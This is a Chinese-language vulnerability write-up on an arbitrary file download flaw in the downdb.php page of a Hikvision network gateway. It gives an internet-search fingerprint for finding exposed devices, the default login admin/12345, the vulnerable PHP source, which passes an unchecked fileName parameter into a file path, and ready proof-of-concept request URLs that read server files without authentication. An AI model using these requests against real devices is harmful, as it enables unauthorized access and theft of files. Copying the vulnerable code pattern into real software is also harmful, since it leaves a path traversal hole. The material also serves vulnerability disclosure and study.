 # 

# HIKVISION 联网网关 downdb.php 任意文件读取漏洞

## 漏洞描述

海康威视 联网网关 在页面 downdb.php 的参数fileName存在任意文件下载漏洞

## 漏洞影响

```
HIKVISION 联网网关，流媒体管理服务器
```

## 网络测绘

```
"杭州海康威视系统技术有限公司 版权所有" && title=="联网网关"
```

## 漏洞复现

默认密码：`admin/12345`

![image-20220519174002167](./images/202205191740359.png)

出现漏洞的代码文件为downdb.php，可以未授权下载任意文件：

```
<?php
$file_name=$_GET['fileName'];
$file_dir = "../../../";
if   (!file_exists($file_dir.$file_name))   {   //检查文件是否存在  
  echo'<script> alert("文件不存在!");window.history.back(-1);</script>'; 
  exit();

}else{	
	$file = fopen($file_dir . $file_name,"r"); // 打开文件
	// 输入文件标签
	Header("Content-type: application/octet-stream");
	Header("Accept-Ranges: bytes");
	Header("Accept-Length: ".filesize($file_dir . $file_name));
	Header("Content-Disposition: attachment; filename=" . $file_name);
	// 输出文件内容
	echo fread($file,filesize($file_dir.$file_name));
	fclose($file);
	exit();
}
?> 
```

POC：

```
/localDomain/downdb.php?fileName=web/html/data/login.php
/localDomain/downdb.php?fileName=web/html/localDomain/downdb.php
```

![image-20220519174022222](./images/202205191740299.png)
